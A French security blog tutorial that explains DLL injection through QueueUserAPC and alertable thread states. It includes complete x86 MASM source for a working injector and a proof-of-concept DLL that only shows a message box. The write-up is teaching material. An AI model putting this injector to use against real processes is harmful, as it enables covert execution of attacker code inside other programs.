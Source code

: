 
Cet article présente une manière d'effectuer de l'injection de DLL via la fonction __QueueUserAPC()__. Il fait suite aux articles précédents:

* https://dokyx.fr/blog/oirtslkdf_injectdll_createremotethread/

* https://dokyx.fr/blog/uyniouliu_injectdll_ntcreatethreadex/

* https://dokyx.fr/blog/lsdjqfqf_injectdll_rtlcreateuserthread/

* https://dokyx.fr/blog/sdkjsd_injectdll_setwindowshookex/

Le code permettant d'effectuer ce type d'injection se basera sur les codes que j'ai utilisés pour effectuer de l'injection de DLL via __CreateRemoteThread()__ et __SetWindowsHookEx()__ auxquels on ajoutera la partie __Asynchronous Procedure Call__ (APC).

Les appels de procédures asynchrones (__APC__) sont des fonctions qui s'exécutent de manière asynchrones dans le contexte d'un thread. Il y a donc une notion de temporalité dans ce type d'injection. Qui dit __temporalité__, dit également __état d'alerte__.

Un __état d'alerte__ (**alertable state**) est une notion d'attente, en ce sens que le thread se mettra en attente le temps d'exécuter **autre chose**. Une fois cette **autre chose** exécutée, il reprendra son cours normale d'exécution.

Il existe différentes fonctions qui permettent de mettre un thread dans un état d'alerte. On trouve:

```
| ------------------------------------------------------| 
| SleepEx()             | MsgWaitForMultipleObjectsEx() |
| SignalObjectAndWait() | WaitForMultipleObjectsEx()    |
| WaitForsingleObjectEx | ReadFileEx()                  |
| SetWaitableTimer()    | SetWaitableTimerEx()          |
| WriteFileEx()         |                               |
| ------------------------------------------------------| 
```

On y voit bien la notion de temps apparaitre dans le nom de ces fonctions.

Les __APC__ sont mises les unes à la suite des autres (une __queue__) attendant que le thread se mette dans un état d'alerte pour s'exécuter. Chaque thread possède sa propre queue d'__APC__. Une fois que le thread est mis dans un état d'alerte, la __queue__ est **déroulée** exécutant alors les fonctions les unes à la suite des autres.

Pour l'injection de DLL, l'__APC__ qui sera mise sur la __queue d'APC__ sera un chargement de la DLL malveillante avec la fonction __LoadLibraryA()__. Il faut donc ouvrir le processus victime (connaissant son __PID__), y allouer une zone mémoire __RWE__ (Readable Writable Executable), puis y écrire  le nom de la DLL malveillante à charger en mémoire avec la fonction __WriteProcessMemory()__. Ce sont les mêmes étapes que celle qui ont été faites lors de l'injection de DLL via __CreateRemoteThread()__.

Le code qui permet cela est présenté ci-dessous:

```
_openProcess:
	mov 		eax, PID
	push 		eax
	push 		0
	push 		1F0FFFh ; PROCESS_ALL_ACCESS
	call 		OpenProcess
	cmp 		eax, 0
	jz 		_exit
	mov 		[hProcess], eax
	
_virtualAllocEx:
	push 		40h ; PAGE_EXECUTE_READWRITE
	push 		3000h ; MEM_RESERVE or MEM_COMMIT
	push 		sizeof dllPath
	push  		0
	push 		hProcess
	call 		VirtualAllocEx
	cmp 		eax, 0
	jz 		_exit
	mov 		[baseAddr], eax

_writeProcessMemory:
	push 		0
	push  		sizeof dllPath
	push 		offset dllPath
	push 		baseAddr
	push 		hProcess
	call 		WriteProcessMemory
	cmp 		eax, 0
	jz 		_exit
```

Comme je l'ai dit plus haut, les __APC__ sont mises dans la queue d'un thread, il faut donc trouver le/les threads du processus victime. Pour cela, je vais utiliser la fonction __CreateToolhelp32Snapshot()__ pour créer un **snapshot** du processus victime, puis parcourir ce **snapshot** à l'aide de __Thread32First()__ et __Thread32Next()__ afin de déterminer le bon __Thread ID__ (__TID__) correspondant au __Process ID__ victime (__PID__).

Le code permettant cela est:

```
_createSnapshot:
    mov     	eax, PID
    push    	eax
    push    	4 ; TH32CS_SNAPTHREAD
    call    	CreateToolhelp32Snapshot
    mov     	[hSnapshot], eax

_getFirstThread:
    push    	offset tte32
    push    	[hSnapshot]
    call    	Thread32First

; compare the PID owner of the thread with the PID of the process to inject
loop_to_find_thread:
    mov     	ebx, PID
    cmp     	[tte32.th32OwnerProcessID], ebx 
    jz  	thread_found
    
    push    	offset tte32
    push    	[hSnapshot]
    call    	Thread32Next

    jmp     	loop_to_find_thread  

thread_found:
```

Ici, __tte32__ fait référence à la strucuture __tagTHREADENTRY32__. Tout ceci a été vu dans l'article traitant de l'injection de DLL via __SetWindowsHookEx()__.

Une fois qu'un thread a été trouvé, il faut pouvoir l'ouvrir (__OpenThread()__), puis y ajouter une __APC__. Pour ajouter une __APC__, il suffit d'utiliser la fonction __QueueUserAPC()__ (https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc).

Le code suivant permet de faire cela:

```
thread_found:
	mov 		eax, [tte32.th32ThreadID]
	mov 		[TID], eax

_openThread:
	push 		[TID]	
	push 		0
	push		10h ; THREAD_SET_CONTEXT
	call 		OpenThread
	cmp 		eax, 0
	jz 			_exit
	mov 		[hThread], eax

_queueUserAPC:
	push 		[baseAddr]
	push 		[hThread]
	push 		[hLoadLibAddr]
	call 		QueueUserAPC
```

Une fois qu'un thread a été trouvé, on récupère le __TID__ de celui-ci grâce au **snapshot**, puis l'on s'en sert pour ouvrir le thread dans lequel on ajoute une __APC__. Pour ajouter l'__APC__, on a besoin de l'adresse de base à laquelle a été écrit le nom de la DLL à mettre en mémoire, le handle du thread victime que l'on a obtenu lors de l'ouverture de celui-ci, et enfin d'un pointeur vers le code a exécuter (ici __LoadLibrary("ma\_dll\_malveillante.dll")__).

<details><summary><font color="red">Ici se trouve le code permettant de faire de l'injection de DLL via QueueUserAPC()</font></summary>
<p>
```
.586
.model flat, stdcall

; kernel32.dll
GetLastError PROTO STDCALL
ExitProcess PROTO STDCALL :DWORD
OpenProcess PROTO STDCALL :DWORD,:DWORD,:DWORD
VirtualAllocEx PROTO STDCALL :DWORD,:DWORD,:DWORD,:DWORD,:DWORD
WriteProcessMemory PROTO STDCALL :DWORD,:DWORD,:DWORD,:DWORD,:DWORD
GetModuleHandleA PROTO STDCALL :DWORD
GetProcAddress PROTO STDCALL :DWORD,:DWORD
CreateToolhelp32Snapshot PROTO STDCALL :DWORD, :DWORD
Thread32First PROTO STDCALL :DWORD, :DWORD
Thread32Next PROTO STDCALL :DWORD, :DWORD
OpenThread PROTO STDCALL :DWORD, :DWORD, :DWORD
QueueUserAPC PROTO STDCALL :DWORD, :DWORD, :DWORD

; https://docs.microsoft.com/en-us/windows/win32/winprog/windows-data-types

tagTHREADENTRY32 struct
    dwSize      dd ?
    cntUsage    dd ?
    th32ThreadID    dd ?
    th32OwnerProcessID dd ?
    tpBasePri   dd ?
    tpDeltaPri  dd ?
    dwFlags     dd ?
tagTHREADENTRY32 ends

.data
	dllPath 	db "C:\Users\Megaport\Desktop\asm\inject.dll",0
	sKrnl32 	db "kernel32.dll",0
	sLoadLib	db "LoadLibraryA",0
	tte32       	tagTHREADENTRY32 <sizeof tagTHREADENTRY32>
	PID 		dd 1720
	
.data?
    	hProcess 	dd ?
 	nSizeDLL 	dd ?
 	baseAddr	dd ?
 	hKrnl32Addr 	dd ?
 	hLoadLibAddr 	dd ?
 	hSnapshot   	dd ?
 	TID 		dd ?
 	hThread 	dd ?

.code

Start PROC

_openProcess:
	mov 		eax, PID
	push 		eax
	push 		0
	push 		1F0FFFh ; PROCESS_ALL_ACCESS
	call 		OpenProcess
	cmp 		eax, 0
	jz 		_exit
	mov 		[hProcess], eax
	
_virtualAllocEx:
	push 		40h ; PAGE_EXECUTE_READWRITE
	push 		3000h ; MEM_RESERVE or MEM_COMMIT
	push 		sizeof dllPath
	push  		0
	push 		hProcess
	call 		VirtualAllocEx
	cmp 		eax, 0
	jz 		_exit
	mov 		[baseAddr], eax

_writeProcessMemory:
	push 		0
	push  		sizeof dllPath
	push 		offset dllPath
	push 		baseAddr
	push 		hProcess
	call 		WriteProcessMemory
	cmp 		eax, 0
	jz 		_exit

_getModuleHandle:
	push 		offset sKrnl32
	call 		GetModuleHandleA
	cmp 		eax, 0
	jz	 	_exit
	mov 		[hKrnl32Addr], eax

_getProcAddress:
	push 		offset sLoadLib
	push		hKrnl32Addr
	call 		GetProcAddress
	cmp 		eax, 0
	jz  		_exit
	mov 		[hLoadLibAddr], eax

_createSnapshot:
    	mov     	eax, PID
    	push    	eax
    	push    	4 ; TH32CS_SNAPTHREAD
    	call    	CreateToolhelp32Snapshot
    	mov     	[hSnapshot], eax

_getFirstThread:
    	push    	offset tte32
    	push    	[hSnapshot]
    	call    	Thread32First

; compare the PID owner of the thread with the PID of the process to inject
loop_to_find_thread:
    	mov     	ebx, PID
    	cmp     	[tte32.th32OwnerProcessID], ebx 
   	jz  		thread_found
    
    	push    	offset tte32
    	push    	[hSnapshot]
   	call    	Thread32Next

    	jmp     	loop_to_find_thread  


thread_found:
	mov 		eax, [tte32.th32ThreadID]
	mov 		[TID], eax

_openThread:
	push 		[TID]	
	push 		0
	push		10h ; THREAD_SET_CONTEXT
	call 		OpenThread
	cmp 		eax, 0
	jz 		_exit
	mov 		[hThread], eax

_queueUserAPC:
	push 		[baseAddr]
	push 		[hThread]
	push 		[hLoadLibAddr]
	call 		QueueUserAPC

_exit:
    xor     eax, eax
    push    eax
    call    ExitProcess

Start ENDP
End
```
</p>
</details>

Pour que le chargement de ma DLL malveillante fonctionne, il faut que le thread ciblé se mette en état d'alerte comme on l'a vu plus haut. Comme mon processus victime est une GUI qui permet l'édition de fichier hexa (programme: HxD), il me suffit de lui demander d'ouvrir une sous-fenêtre comme par exemple lorsque l'on veut __sauvegarder comme__ (**save as**), ou ouvrir un document (**open**). Très souvent ces actions ouvrent une fenêtre secondaire laissant à l'utilisateur le choix d'un nom de fichier à ouvrir/sauver. Pour effectuer cette action, il faut que le thread principal se mette alors en attente ... état d'alerte ! Yes !

Une fois en état d'alerte, le thread va parcourir sa __queue d'APC__ et exécuter celle-ci et notamment l'__APC__ qu'on lui a ajouté précédemment et qui permet de charger en mémoire une DLL malveillante.

La DLL malveillante utilisée exécute du code lors du chargement en mémoire car le code malveillant est écrit dans la partie __DLL\_PROCESS\_ATTACH__.

<details><summary><font color="red">Ici se trouve le code de la DLL utilisée</font></summary>
<p>
```
.586
.model flat, stdcall

; kernel32.dll
GetLastError PROTO STDCALL
ExitProcess PROTO STDCALL dwExitCode:DWORD
MessageBoxA PROTO STDCALL :DWORD,:DWORD,:DWORD,:DWORD


.data
	sTitle  db  'h4ck', 0
    	sMsg	db  'h4ck', 0

.data?
    	hInstance dd ?

.code

LibMain PROC hInstDLL:DWORD, reason:DWORD, unused:DWORD
    ; https://docs.microsoft.com/en-us/windows/win32/dlls/dllmain
    .if reason == 1 ; DLL_PROCESS_ATTACH
        call myFunc

        nop

    .elseif reason == 3 ; DLL_THREAD_DETACH
		nop

    .elseif reason == 2 ; DLL_THREAD_ATTACH
    	nop   
    
    .elseif reason == 0 ; DLL_PROCESS_DETACH
      	nop
    .endif

    ret

LibMain ENDP

; to export that function
; need to create a blop.def file containing:
; LIBRARY inject
; EXPORTS myFunc
; and into the .bat that compile, add the option: /def:blop.def
myFunc PROC 
    call    _MessageBox
    ret

myFunc ENDP

_MessageBox PROC
        push        0
        push        offset sTitle
        push        offset sMsg
        push        0 
        call       MessageBoxA

    ret

_MessageBox ENDP

END ; LibMain
```
</p>
</details>

Cette injection de DLL est sympa mais nécessite que le thread victime puisse être mis dans un état d'alerte, ce qui n'est pas toujours le cas.

De plus, pour être optimale, il faudrait ajouter une __APC__ dans chaque threads du processus victime afin de maximier les chances que le code malveillant soit exécuté. 
